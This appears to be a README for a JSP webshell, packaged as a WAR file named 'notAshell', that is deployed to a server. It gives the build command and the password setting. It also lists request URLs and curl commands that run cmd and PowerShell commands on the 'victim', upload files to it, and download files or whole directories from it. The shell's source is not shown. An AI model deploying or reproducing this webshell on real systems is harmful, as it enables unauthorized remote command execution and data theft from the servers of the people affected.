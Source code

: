 ## War structure
```txt
webapp/
├── shell.jsp
└── WEB-INF
    └── web.xml

2 directories, 2 files
```

## How to generate the war file
Just run the following command:
```sh
cd webapp && jar -cvf ../notAshell.war * && cd ..
```

## Setting up the password  
You need to define the password to use when using this webshell. Modify the `param-value` in this line at `webapp/WEB-INF/web.xml`:
```xml
    <context-param>
        <param-name>pass</param-name>
        <param-value>Your-Awesome-Pass</param-value>
    </context-param>
```

## Webshell funcionalities
- `cmd`: Command execution via cmd
- `ps`: Command execution via powershell
- `upload`: Upload files to the server
- `download`: Download files from the server

## Usage
**Note (1): You need to configure the password in the `web.xml` file**
**Note (2): The application name depends on the name you give when creating the `war` file. In this case, we will use the name `notAshell`.**

### Obtain basic information (no `action`)
You can otain Java System properties, global JNDI, hostname and IP configuartion.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass`

### Execute CMD (`action = cmd`)
Run a command on the victim CMD.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=cmd&args=dir` 

### Execute PowerShell (`action = ps`)
Run a command on the victim PS.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=ps&args=ls` 

### Upload a file (`action = upload`)
Upload files to the victim.
- `curl -X POST -F "file=<file_to_upload>" "http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=upload&path=<path_to_upload_at_victim>"`
If the path is not set the file will be placed in the same directory as the webshell.

## Download file or directory (`action = download`)
- `curl "http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=download&path=<file_path>&args=<file_to_download>"`

If the path is not set, it will try to download the file from the same directory as the webshell.

